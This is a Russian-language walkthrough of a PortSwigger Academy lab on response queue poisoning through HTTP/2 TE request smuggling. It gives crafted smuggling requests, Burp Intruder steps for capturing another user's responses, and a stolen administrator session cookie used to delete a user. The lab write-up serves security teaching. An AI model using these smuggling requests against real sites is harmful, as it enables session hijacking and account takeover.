 Перейдем на уязвимый ресурс

Перейдем в `Proxy` -> `HTTP history` и отправим в `Repeater` запрос на корневую страницу
изменим ее на 
```
POST / HTTP/2
Host: 0a560020040b60a3802f4e44009f00c7.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Transfer-Encoding: chunked

0

GET /qwe HTTP/1.1
X-ignore: x
```
![img](https://github.com/adyatlove/PortSwiggerAcademy/blob/main/25.%20HTTP%20request%20smuggling/11.%20Response%20queue%20poisoning%20via%20H2.TE%20request%20smuggling/pics%20for%20walkthrough/1.png)

и при отправке вдогонку обычного запроса 
```
GET / HTTP/2
```
получим
```
HTTP/2 404 Not Found
Content-Type: application/json; charset=utf-8
Set-Cookie: session=y9Ke0JiO9cYSBDAeimkkpKWXUhnwjUE6; Secure; HttpOnly; SameSite=None
X-Frame-Options: SAMEORIGIN
Content-Length: 11

"Not Found"
```
![img](https://github.com/adyatlove/PortSwiggerAcademy/blob/main/25.%20HTTP%20request%20smuggling/11.%20Response%20queue%20poisoning%20via%20H2.TE%20request%20smuggling/pics%20for%20walkthrough/2.png)

тлично, далее модифицируем наш запрос, чтобы нам не пришлось посылать второй запрос, и чтобы сделать нашу жизнь проще
```
POST /asdasdafafqwfqfqwdqdqwd HTTP/2
Host: 0a560020040b60a3802f4e44009f00c7.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Transfer-Encoding: chunked

0

GET /qweqrweggwerheghwerhgweh HTTP/1.1
Host: 0a560020040b60a3802f4e44009f00c7.web-security-academy.net
```

и на каждый ответ мы видим 404 ошибку
![img](https://github.com/adyatlove/PortSwiggerAcademy/blob/main/25.%20HTTP%20request%20smuggling/11.%20Response%20queue%20poisoning%20via%20H2.TE%20request%20smuggling/pics%20for%20walkthrough/3.png)

Чтобы не играть в постоянное отправление запросов, отправим запрос в `Intruder` 
выберем `Null payload`
![img](https://github.com/adyatlove/PortSwiggerAcademy/blob/main/25.%20HTTP%20request%20smuggling/11.%20Response%20queue%20poisoning%20via%20H2.TE%20request%20smuggling/pics%20for%20walkthrough/4.png)
![img](https://github.com/adyatlove/PortSwiggerAcademy/blob/main/25.%20HTTP%20request%20smuggling/11.%20Response%20queue%20poisoning%20via%20H2.TE%20request%20smuggling/pics%20for%20walkthrough/5.png)
![img](https://github.com/adyatlove/PortSwiggerAcademy/blob/main/25.%20HTTP%20request%20smuggling/11.%20Response%20queue%20poisoning%20via%20H2.TE%20request%20smuggling/pics%20for%20walkthrough/8.png)
![img](https://github.com/adyatlove/PortSwiggerAcademy/blob/main/25.%20HTTP%20request%20smuggling/11.%20Response%20queue%20poisoning%20via%20H2.TE%20request%20smuggling/pics%20for%20walkthrough/9.png)
спустя время увидим респонс `302`
```
HTTP/2 302 Found
Location: /my-account?id=administrator
Set-Cookie: session=2zBod9YDGD9eLqVAcvGSvT0pWsvxA1He; Secure; HttpOnly; SameSite=None
X-Frame-Options: SAMEORIGIN
Content-Length: 0
```
![img](https://github.com/adyatlove/PortSwiggerAcademy/blob/main/25.%20HTTP%20request%20smuggling/11.%20Response%20queue%20poisoning%20via%20H2.TE%20request%20smuggling/pics%20for%20walkthrough/6.png)

Изменим куки в браузере, и удалим carlos'а как этого и требует задание и получим уведомление об успешно выполненной лабораторной работе
![img](https://github.com/adyatlove/PortSwiggerAcademy/blob/main/25.%20HTTP%20request%20smuggling/11.%20Response%20queue%20poisoning%20via%20H2.TE%20request%20smuggling/pics%20for%20walkthrough/7.png)

